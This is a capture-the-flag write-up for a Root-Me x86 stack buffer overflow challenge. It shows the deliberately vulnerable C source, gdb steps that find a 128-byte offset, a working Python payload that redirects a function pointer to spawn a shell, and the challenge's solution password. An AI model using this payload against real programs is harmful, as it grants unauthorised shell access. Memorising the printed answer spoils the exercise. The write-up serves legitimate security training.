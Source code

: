 # ELF x86 - Stack buffer overflow basic 2
- Point: 10pts
- Author: [Lyes](https://www.root-me.org/Lyes?lang=en), 10 April 2015
- Level: Very Easy <br><br>
![image](https://user-images.githubusercontent.com/48288606/141502136-47d2b4bd-50fe-47af-80a9-e3c294bfbf01.png)

## Write-up:
Code:
```
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>
 
void shell() {
    setreuid(geteuid(), geteuid());
    system("/bin/bash");
}
 
void sup() {
    printf("Hey dude ! Waaaaazzaaaaaaaa ?!\n");
}
 
void main()
{
    int var;
    void (*func)()=sup;
    char buf[128];
    fgets(buf,133,stdin);
    func();
}
```


- As a normal code flow, the program will point to the address of **sup()** function and execute it. Using gdb and disassembler the **main()** function and save the address of **shell (0x08048516)** <br>
- `void (*func)()=sup;` is a declaration of a function pointer and point to **sup** function. We can overflow **buffer** to overwrite this pointer and point again to **shell** function.


![image](https://user-images.githubusercontent.com/48288606/146747232-e78b70c2-9af0-413a-a20d-2b39be64cf96.png)
 
- Set breakpoint at **fgets function**. Run the program
```
gdb-peda$ b*main+0
Breakpoint 1 at 0x8048584
```

-  Input `aaaaaaaa`and watch the value. 

![image](https://user-images.githubusercontent.com/48288606/146749346-4e182441-effa-4519-8d5a-09a2d4452c7a.png)

- Our input's at **0xbffffa9c**. Now watch the return address of **sup function**.

![image](https://user-images.githubusercontent.com/48288606/146752691-aa64fb0d-7b34-4ea0-ab63-1097ee23671f.png)


- **sup** is at **0xbffffb1c**. Calculate the distance from **buffer** to address of **sup** function.
```
gdb-peda$ p/d 0xbffffb1c-0xbffffa9c
$5 = 128
```

### Solution:
- First we will fill the **buf**'s value with 128 "A" characters, and then push the address of the **shell()** function. <br>
Payload: `(python -c "print('a'*128+'\x16\x85\x04\x08')";cat) | ./ch15` <br>
Password: B33r1sSoG0oD4y0urBr4iN

